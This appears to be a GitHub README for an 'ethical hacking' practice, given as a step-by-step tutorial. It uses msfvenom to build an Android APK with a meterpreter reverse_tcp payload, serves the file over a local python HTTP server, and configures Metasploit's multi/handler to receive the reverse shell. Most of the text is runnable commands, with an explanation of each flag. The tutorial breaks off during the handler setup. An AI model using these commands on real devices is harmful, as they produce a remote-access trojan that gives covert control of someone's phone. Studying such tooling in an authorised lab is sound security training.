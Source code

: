 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
┌──(kali㉿CarlosSantos)-[~]
└─$ `sudo -s`


#### We check what our hostname is
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
┌──(root㉿CarlosSantos)-[/home/kali]
└─# `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
msf6 >  `use /multi/handler`
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
msf6 exploit(multi/handler) > `set payload android/meterpreter reverse_tcp`
payload => android/meterpreter/reverse_tcp

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

* *This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

* *Here is the meaning of each part of the payload:*

* *android: Indicates that the payload is designed for Android systems.*
* *meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*
####

